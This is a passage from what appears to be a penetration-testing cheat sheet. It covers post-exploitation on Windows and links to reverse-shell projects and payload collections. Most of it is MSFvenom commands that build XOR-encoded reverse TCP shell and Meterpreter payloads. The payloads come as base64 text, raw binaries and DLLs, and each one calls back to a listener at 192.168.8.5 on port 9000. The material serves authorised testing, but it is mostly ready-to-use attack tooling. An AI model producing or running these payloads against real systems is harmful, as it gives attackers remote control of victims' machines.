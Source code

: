 Find out more about Java/JSP shells from my other [project](https://github.com/ivan-sincek/java-reverse-tcp).

### Send a Payload With Python

Find out how to generate a `reverse shell payload` for Python and send it to a target's machine from my other [project](https://github.com/ivan-sincek/send-tcp-payload).

## 4. Post Exploitation

### 4.1 Useful Websites

* [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [lolbas-project.github.io](https://lolbas-project.github.io)
* [gtfobins.github.io](https://gtfobins.github.io)

### Generate a Reverse Shell Payload for Windows OS

To generate a `Base64 encoded payload`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt
```

To generate a `binary file`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin
```

To generate a `DLL file`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll
```
